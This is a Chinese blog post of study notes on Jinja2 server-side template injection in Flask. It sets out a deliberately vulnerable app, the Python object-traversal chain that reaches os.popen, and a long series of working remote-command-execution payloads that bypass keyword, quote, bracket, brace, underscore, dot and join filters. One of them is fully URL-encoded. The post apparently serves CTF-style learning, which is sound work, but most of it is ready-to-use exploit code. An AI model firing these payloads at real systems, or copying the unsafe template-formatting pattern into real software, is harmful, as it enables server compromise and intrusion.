 ```yaml
---
layout:     post
title:      ssti
subtitle:   ssti
date:       2020-08-29
author:     RRY
header-img: img/post-bg-cook.jpg
catalog: true
tags:
    - python-ssti-jinja2
---
```

# ssti

### 0x00前置知识
模块是一个包含响应文本的文件，其中包含占用位变量表示的动态部分，其具体值只在请求的上下文中才知道。使用真实值替换变量，再返回最终得到的响应字符串，这一过程称为渲染。为了渲染模块，Flask使用一个名为Jinja2的强大模板引擎。

__1. 变量__
```python
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def index():
    name = "rry"
    temlate = '''
        <h1>hello,{{name}}</h1>
    '''
    return render_template_string(temlate,name=name)
    
if __name__ == '__main__':
    app.debug = True
    app.run()
```
__2. if条件__

   ![d7qKZF.png](https://s1.ax1x.com/2020/08/29/d7qKZF.png)

3. for循环和宏定义类似，这里就不举例了。
4. 如果需要用到占位符，单个%的换成`{%% %%}`
   

### 0x01实现原理
```python
from flask import Flask
from flask import request
from flask import config
from flask import render_template_string
app = Flask(__name__)

app.config['SECRET_KEY'] = "flag{SSTI_123456}"
@app.route('/')
def index():
    template = '''
        {%% block body %%}
        hello,%s
        {%% endblock %%}
    '''  % (request.args.get('name'))
    return render_template_string(template), 200

if __name__ == '__main__':
    app.run(host='0.0.0.0',debug=True)
```
__1. python内置了许多方法如__
	- `__class__`返回对象所属的类。
	- `__bases__`以元组的形式返回一个类所直接继承的类。
	- `__base__`以字符串返回一个类所直接继承的类。
	- `__mro__`返回解析方法调用的顺序。
	- `__subclasses__()`获取类的所有子类。
	- `__init__`所有自带带类都包含init方法，便于利用他当跳板来调用globals。
	- `__globals__`通过`function.__globals__`，用于获取函数所处空间下可使用的module、方法以及所有变量。
	- `__getattribute__` 使用实例访问属性时,调用该方法
	- `__dict__` 查看方法
__2. 通过模板渲染和自带方法我们可以实现任意命令执行__
	- 首先通过'`"".__class__`获得str类
	- 再用`"".__class__.__bases__`或者`"".__class__.__mro__[1]`获得基类
	- `.__subclasses__()`可以获取所有子类
	- 再使用`.__init__.__globals__[]`找到包含os模块的子类
	- 最终payload`?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}`

```python
# python3
# 一个常见的poc
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
    	{% for b in c.__init__.__globals__.values() %}
			{% if b.__class__ == {}.__class__ %}
      			{% if 'eval' in b.keys() %}
					{{b['eval']('__import__("os").popen("dir").read()')}}
     			{% endif %}
    		{% endif %}
		{% endfor %}
	{% endif %}
{% endfor %}
```
其他的的利用先贴一张图（好眼熟hhhh）
![img](https://s1.ax1x.com/2020/05/19/Y5LJMj.png)
这里warnings其实是个module，如果报错`jinja2.exceptions.UndefinedError: 'warnings' is undefined`是因为没有导入warnings模块，但是导入后其实同样不能用，原因可以能是jinja2的渲染过滤掉了warnings，不让用了吧
只有在本地是可以这样用的
![dGML3n.png](https://s1.ax1x.com/2020/08/20/dGML3n.png)
但是不同环境，下标不同，这个方法在py3.8是不是就不能用了呢。。。

### 0x02绕过检测
1. __关键字过滤__
	- 字符串拼接`{{""["__cla"+"ss__"]}}`
   
	- 字符串拼接`{{"".__getattribute__("__cla"+"ss__")}}`(python3好像不能字符串拼接了，只能用这个函数传一个字符串过去....)
   
	- format替换`{{fl{0}g.format('a')}}`
   
	- doc方法，返回类或函数的介绍`{{''.__class__.__doc__[1]}}`
   
     ![dyp7lj.png](https://s1.ax1x.com/2020/08/24/dyp7lj.png)
   
	- replace和join过滤器`{{'aay'|replace('a','r')}}`	`{{'rr''y'|join}}`
   
	- python2的一种方法(pyhon3的字符串没有decode方法)`{{'X19jbGFzc19f'.decode('base64')}}`
   

__2. 引号过滤__
   首先我们从引号的作用出发，第一个引号是为了用字符串来引出基类object，而任何数据结构都可以引出基类，比如0，[]，{}，后面的引号是用来获得键值，我们可以利用request.args或者request.values绕过，request.args是flask用来存储请求参数的一个字典。
   ![dy9pp4.png](https://s1.ax1x.com/2020/08/24/dy9pp4.png)

```python
http://127.0.0.1:5000/?name={{''.__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[request.args.a][request.args.b](request.args.c).read()}}&a=os&b=popen&c=whoami
```
   还可以利用chr()和set来绕过，首先fuzz一下找到chr()
```python
{{().__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr}}
```
   ![dyezlV.png](https://s1.ax1x.com/2020/08/24/dyezlV.png)

```python
{%set chr=[].__class__.__bases__[0].__subclasses__()[299].__init__.__globals__.__builtins__.chr%}{{[].__class__.__mro__[1].__subclasses__()[299].__init__.__globals__[chr(111)+chr(115)][chr(112)+chr(111)+chr(112)+chr(101)+chr(110)](chr(119)+chr(104)+chr(111)+chr(97)+chr(109)+chr(105)).read()}}
```
   这里加号一定要用url编码成%2B防止被解码成空格，然而像下面这样全部url编码也是可以的。
```python
%7b%25%73%65%74%20%63%68%72%3d%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%62%61%73%65%73%5f%5f%5b%30%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%2e%5f%5f%62%75%69%6c%74%69%6e%73%5f%5f%2e%63%68%72%25%7d%7b%7b%5b%5d%2e%5f%5f%63%6c%61%73%73%5f%5f%2e%5f%5f%6d%72%6f%5f%5f%5b%31%5d%2e%5f%5f%73%75%62%63%6c%61%73%73%65%73%5f%5f%28%29%5b%32%39%39%5d%2e%5f%5f%69%6e%69%74%5f%5f%2e%5f%5f%67%6c%6f%62%61%6c%73%5f%5f%5b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%35%29%5d%5b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%31%31%32%29%2b%63%68%72%28%31%30%31%29%2b%63%68%72%28%31%31%30%29%5d%28%63%68%72%28%31%31%39%29%2b%63%68%72%28%31%30%34%29%2b%63%68%72%28%31%31%31%29%2b%63%68%72%28%39%37%29%2b%63%68%72%28%31%30%39%29%2b%63%68%72%28%31%30%35%29%29%2e%72%65%61%64%28%29%7d%7d
```

__3. 中括号过滤__
   点号代替中括号的作用
```
{{''.__class__.__mro__.1.__subclasses__().299.__init__.__globals__.os.popen('whoami').read()}}
```
   利用`__getitem__();a[2] == a.__getitem__(2)`
   利用join进行绕过`{{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_`

__4. 双大括号过滤__
   利用jinja2的条件和循环语法
```python
{% for i in list %}
	{% if 1==1 %}
	{% endif %}
{% endfor %}
# 可以使用上面贴的常用poc
```
__5. 阉割过滤__
   builtins是python的内建模块，所谓内建模块就是你在使用时不需要import，python启动后，在没有执行程序员编写的任何代码前，python会加载内建模块中的函数到内存中。比如经常使用的abs(),str(),type()等。而在python2.x中这个模块叫做builtins.如果你需要向内建模块中添加自己的函数，则必须import builtins(在main模块中可以直接通过builtins添加函数，不需要import builtins)
   python2中可以通过重新载入builtins来恢复被删除掉的方法。python3中已经不能直接使用reload函数，需要导入imp库

```
reload(__builtins__)
```
   ![dfe7PU.png](https://s1.ax1x.com/2020/08/26/dfe7PU.png)
__6. 下划线过滤__
   request.args绕过
   {{""["\x5f\x5fclass\x5f\x5f"]}}有的时候python并不支持这种写法，"\x5f"是字符 ”_“，”\x2E"是字符 "."
   { { request.headers['X-Forwarded-For']} } ，没有尝试。
   Jinja有类似Linux管道机制的语法，即'|'符号。利用此语法加上attr()方法，就可以达到在方括号中书写属性名称一样的效果.。
```python
{{[]|attr('__class__')}}
{{[].__class__}}
# 两者是相当的
```
由此我们可以逐步将payload转换成不带下划线的格式
```python
# 1.0
{{''.__class__.__base__.__subclasses__()[299].__init__.__globals__["os"]["popen"]("whoami").read()}}
# 2.0
# {{''|attr('__class__')|attr('__base__')|attr('__subclasses__')()[299]}}拼接到这里的时候出现语法错误，但是按照下面当做二维列表就可以取到想要的类了(神奇*1...)。
{{[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]}}
# 3.0继续拼接，只要用到中括号取值就要搞成二维列表取0
{{[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']}}
# 4.0但是接下来取popen就不用二维列表...当然用上了不会出错(神奇*2...)
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']}}
# 5.0继续加上剩下的
{{[[[''|attr('__class__')|attr('__base__')|attr('__subclasses__')()][0][299]|attr('__init__')|attr('__globals__')][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 6.0再利用join特性将_分离([1,2,3]|join 结果为123)
{{[[[''|attr(['_'*2,'class','_'*2]|join)|attr(['_'*2,'base','_'*2]|join)|attr(['_'*2,'subclasses','_'*2]|join)()][0][299]|attr(['_'*2,'init','_'*2]|join)|attr(['_'*2,'globals','_'*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
# 7.0最后_替换[[]|map|string|list][0][20]，得到最终payload
{{[[[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'base',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][299]|attr([[[]|map|string|list][0][20]*2,'init',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'globals',[[]|map|string|list][0][20]*2]|join)][0]['os']][0]['popen']('whoami')|attr('read')()}}
```
__7. 点号过滤__
   attr的使用，同上
__8. |join过滤__
   `blacklist = ["__","request[request.","__class__",'[',']',"|join"]`
   使用管道+format方法，用格式化字符串生成被过滤的字串。
```python
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
```   

> 参考文章
>
> https://xz.aliyun.com/t/6885
>
> https://xz.aliyun.com/t/3679
>
> https://blog.csdn.net/slamx/article/details/49286863
>
> https://www.cnblogs.com/caicairui/p/7778410.html?utm_medium=referral
>
>https://diego-x.github.io/2020/05/20/Flask-ssti%E7%BB%95%E8%BF%87/
>
>https://www.cnblogs.com/Mrfanl/p/10198174.html
>
>https://www.jianshu.com/p/a736e39c3510
